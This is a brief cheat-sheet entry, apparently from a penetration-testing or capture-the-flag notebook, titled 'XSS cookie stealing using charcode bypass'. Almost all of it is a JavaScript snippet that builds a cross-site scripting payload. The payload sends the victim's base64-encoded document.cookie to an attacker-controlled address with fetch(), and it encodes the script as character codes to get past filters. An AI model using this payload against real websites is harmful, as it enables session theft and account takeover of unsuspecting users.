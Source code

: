 
XSS cookie stealing using charcode bypass:
---
#xss #charcode #bypass #cookies 
```js
const attacker = `http://10.10.14.164/cb`;
const xssString = `var attacker = "${attacker}";
fetch(attacker + "?cb=" + encodeURI(btoa(document.cookie)))`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',')
console.log(payload)
```
